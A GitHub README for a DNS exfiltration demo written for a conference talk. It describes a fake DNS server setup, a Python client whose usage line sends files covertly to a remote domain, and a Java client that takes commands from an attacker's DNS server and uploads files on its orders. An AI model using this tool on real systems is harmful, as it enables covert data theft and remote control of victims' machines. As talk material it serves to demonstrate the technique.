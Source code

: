 # dns_exfiltration
Simple DNS exfiltration using base64-encoded URL's

This is demonstration code for a talk. It has hard-coded URL's and is useful for no other purpose. 

##Server Setup:
server should be run on a machine with an NS record pointed at it.
Your domain will be used as the base url for the client.

install python-dnslib using your favorite package manager or pip.
Copy server2 code to your fake-dns-server and run as root.



##Client setup:

*python client:*
This client is only useful for uploading files discretely.
```bash
client local_filename remote_filename base_url
```

*Java client:*
The java client has compile-time dependencies. You'll need to include org.xbill.DNS to make DNS requests and org.apache.commons.codec for Base64. You can just extract those and edit the Makefile accordingly.

```bash
make
make jar
java -jar DefConGui.jar
```

Unlike the python client, in which the user uploads files intentionally, the java client accepts commands from the hacked DNS server and uploads files by the will of the DNS attacker.

Naturally, being that this is a java swing client, this could easily be uploaded to a web server.

